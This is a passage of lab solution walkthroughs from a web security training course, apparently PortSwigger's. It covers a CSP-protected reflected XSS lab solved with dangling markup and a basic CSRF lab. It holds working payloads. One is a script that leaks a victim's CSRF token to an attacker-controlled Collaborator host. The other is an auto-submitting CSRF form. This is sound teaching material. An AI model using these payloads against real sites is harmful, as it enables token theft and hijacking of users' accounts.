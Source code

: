 ### Lab: Reflected XSS protected by CSP, with dangling markup attack

1.  Log in to the lab using the account provided above.
2.  Examine the "Update email" function. Observe that there is an XSS vulnerability in the `email` parameter.
3.  Go to the Burp menu and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
4.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
5.  Back in the lab, go to the exploit server and add the following code, replacing `your-lab-id` with your lab ID, and replacing `your-collaborator-id` with the payload that you just copied from Burp Collaborator.  
    `<script>  
    location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';  
    </script>`
6.  Click "Store" and then "Deliver exploit to victim". If the target user visits the website containing this malicious script while they are still logged in to the lab website, their browser will send a request containing their [CSRF token](https://portswigger.net/web-security/csrf/tokens) to your malicious website. You can then steal this token using the Burp Collaborator client.
7.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the "Request" tab, and copy the user's CSRF token.
8.  With Burp's intercept feature switched on, go back to the update email function of the lab and submit a request to change the email to any random address.
9.  In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`.
10.  Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
11.  Click "Options" and make sure that the "Include auto-submit script" is activated.
12.  Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
13.  Drop the request and switch off the intercept feature.
14.  Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
15.  Click "Store" and "Deliver exploit to victim". The user's email will be changed to `hacker@evil-user.net`.

## Cross-Site Request Forgery (CSRF)

### Lab: CSRF vulnerability with no defenses

1.  With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2.  If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".  
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template and fill in the request's method, URL, and body parameters. You can get the request URL by right-clicking and selecting "Copy URL".  
    `<form method="$method" action="$url">  
         <input type="hidden" name="$param1name" value="$param1value">  
    </form>  
    <script>  
          document.forms[0].submit();  
    </script>`
3.  Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
4.  To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5.  Click "Deliver to victim" to solve the lab.